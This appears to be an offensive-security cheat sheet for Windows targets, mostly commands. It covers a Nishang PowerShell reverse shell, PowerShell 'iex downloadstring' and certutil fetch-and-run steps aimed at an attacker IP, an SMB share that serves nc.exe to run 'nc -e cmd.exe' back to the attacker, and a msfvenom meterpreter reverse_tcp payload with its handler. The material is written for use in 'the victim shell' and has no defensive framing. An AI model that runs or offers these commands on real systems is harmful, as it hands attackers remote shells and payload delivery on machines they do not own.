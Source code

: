 ### Windows

#### Nishang
- git clone [Nishang](https://github.com/samratashok/nishang)
- edit InvokePowerShellTcp.ps1 /nishang/Shells/
paste *Invoke-PowerShellTcp -Reverse -IPAddress [your_ip] -Port [your_port]* on bottom of the file.
- run python HTTP server
  -python -m SimpleHTTPServer 443
  -python3 -m http.server 443
-In the victim shell: 
  powershell iex(new-object System.net.webclient).downloadstring('http://[your_ip:port]/Invoke-PowerShellTcp.ps1')
-------------------------------------------------------------------------------------------------------------------------------------------------------------------
#### Powershell
powershell -ExecutionPolicy Bypass -File wget.ps1 http://[your_ip:port]/file file

echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://192.168.1.101/file.exe" >>wget.ps1
echo $file = "output-file.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1

```
powershell iex(new-object System.net.webclient).downloadstring('http://[your_ip:port]/Invoke-PowerShellTcp.ps1')
```

##### PowerShell file download
```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://[your_ip:port]/wget.exe','C:\Destination\path\wget.exe')"
```

##### powershell wget http://[your_ip:port]
-------------------------------------------------------------------------------------------------------------------------------------------------------------------
#### smbserver

- smbserver.py
```
git clone [impacket](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py)
```
create directory (for example test)
```
cp nc.exe to your_file_directory_path
```
run smbserver
```
python smbserver.py test your_file_directory_path (example: python smbserver.py test /root/mysmbfile
```
run local nc
```
nc -lnvp 443
```
In the victim shell
```
\\[your_ip]\test\nc.exe -e cmd.exe [your_ip]
```
-------------------------------------------------------------------------------------------------------------------------------------------------------------------
#### certutil
```
certutil -urlcache -f http://[your_ip]/file output_file_name
```
-------------------------------------------------------------------------------------------------------------------------------------------------------------------
#### Meterpreter
- create msfvenom payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[you_ip] LPORT=[your_port] -f asp > rs.asp

- use mstfconsole
exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost, lport and run

- execute reverse shell
curl http://10.10.10.5/rs.asp
